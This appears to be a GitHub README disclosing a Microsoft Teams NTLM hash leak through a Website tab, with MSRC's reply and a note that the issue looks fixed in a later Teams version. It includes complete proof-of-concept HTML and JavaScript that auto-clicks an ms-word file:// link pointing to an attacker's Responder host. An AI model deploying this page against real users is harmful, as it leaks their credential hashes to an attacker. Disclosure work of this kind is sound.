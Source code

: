 
# Description

When a user navigates to a "Website" tab  that directs to a specially designed webpage, it can result in the exposure of the NTLM hash through the activation of an Office URL scheme, thereby reducing the process to a single-click path for the leak.

If one attempts to open a link in the format ms-word:ofv|u|file://Share/File.docx from a browser, the following steps are required:

1- The user must confirm their intention to open Word.

2- The user must acknowledge and accept the risks as indicated by the warning message from MS Office.

However, on the Website tab, the user's action is simplified to only accepting the risk.



# Reproduction steps

 1. Run Responder on an "attacker" machine
 2. Serve an HTML page containing the code below:
   <!DOCTYPE html>
    <html>
    <head>
        <title>Auto Open Document</title>
    </head>
    <body>
        <a href="ms-word:ofv|u|file://ResponderIP_Or_MachineName/File.docx" id="autoOpenLink"></a>
        <script>
            window.onload = function() {
                document.getElementById('autoOpenLink').click();
            };
        </script>
    </body>
    </html>
 3. In Teams, set up a "Website" tab that directs to the webpage you have just set up.
 4. Access the "Tab."

When you visit the Tab, a JavaScript-triggered link automatically initiates the opening of Word. If the user agrees to the prompt in Word by clicking "Yes," their NTLM hash is transmitted to the "attacker's" machine.

# Demo
![PoC](https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/TeamNTLM_V3.gif?raw=true)

# Discloser

> On Wed, Mar 27, 2024, 20:23 Microsoft Security Response Center <[secure@microsoft.com](mailto:secure@microsoft.com)<mailto:[secure@microsoft.com](mailto:secure@microsoft.com)>> wrote:  
Hello,  
Thank you for your submission. We determined your finding is valid but does not meet our bar for immediate servicing because the severity of the issue is low. Our engineers indicated that a user would still have to consent in Word or other Office clients before the NTLM is leaked, which reduces the severity. However, weve marked your finding for future review as an opportunity to improve our products, and as a feature issue to improve upon. I do not have a timeline for this review. As no further action is required at this time, I am closing this case.  
Regards,  
MSRC

Looks fixed in Microsoft Teams version **24033.813.2773.520.**
